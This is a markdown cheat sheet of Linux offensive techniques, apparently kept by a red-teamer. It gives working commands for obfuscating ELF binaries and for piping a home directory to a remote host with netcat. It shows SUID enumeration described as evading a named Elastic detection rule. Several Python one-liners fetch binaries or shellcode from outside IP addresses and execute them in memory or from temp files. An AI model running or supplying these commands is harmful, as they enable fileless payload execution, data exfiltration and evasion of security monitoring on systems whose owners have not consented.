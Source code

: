 
# Linux Notes

## Obfuscate ELF
https://github.com/Trigleos/ELFREVGO.git
```bash
ELFREVGO/bin/ELFREVGO -f test -e -t -n -gd execve -gf custom_logger -o testx
```

## Netcat Transfer folder Linux to Linux
```bash
nc -l -p 1234 | tar xf -
tar cf - /home/debian | nc 10.10.10.10 1234
```

## Unique way to enumerate SUID binaries, evades this rule
https://github.com/elastic/detection-rules/blob/main/rules/linux/discovery_suid_sguid_enumeration.toml
```bash
find / -type f 2>/dev/null -exec stat -c "%A %n" {} + | grep '^...s'
```

## Python3 run ELF in memory with no parameters
```bash
python3.7 -c 'import os, urllib.request; d=urllib.request.urlopen("http://10.10.0.103/test.exe"); fd=os.memfd_create("foo"); os.write(fd,d.read()); p=f"/proc/self/fd/{fd}"; os.execve(p, [p], {})'
```

## Python3 run ELF in memory with parameters
```bash
python3 -c 'import os; import urllib.request; d = urllib.request.urlopen("https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true"); fd = os.memfd_create("foo"); os.write(fd, d.read()); p = f"/proc/self/fd/{fd}"; os.execve(p, [p,"-Pn", "-n", "127.0.0.1"], {})'
```

## Python2 map and execute shellcode in memory
```bash
/usr/bin/python -c 'import urllib2,mmap,ctypes;d=urllib2.urlopen("http://8.209.128.8/a").read();m=mmap.mmap(-1,len(d),34,7);m.write(d);ctypes.CFUNCTYPE(None)(ctypes.addressof(ctypes.c_char.from_buffer(m)))()'
```

## Python2 - Write ELF as temp file and execute
```bash
/usr/bin/python -c 'import os,urllib2,tempfile;d=urllib2.urlopen("http://8.209.128.8/config").read();f=tempfile.NamedTemporaryFile(delete=False);f.write(d);f.close();os.chmod(f.name,0755);os.execve(f.name,[f.name,"-pthread"],{})'
```

# FreeBSD - Cross-Compile
```bash
clang --target=x86_64-unknown-freebsd12.2 --sysroot=/root/cross_compiler/freebsd-12.2-sysroot -I/root/cross_compiler/freebsd-12.2-sysroot/usr/include -L/root/cross_compiler/freebsd-12.2-sysroot/usr/lib -o shell shell.c -fPIC
```
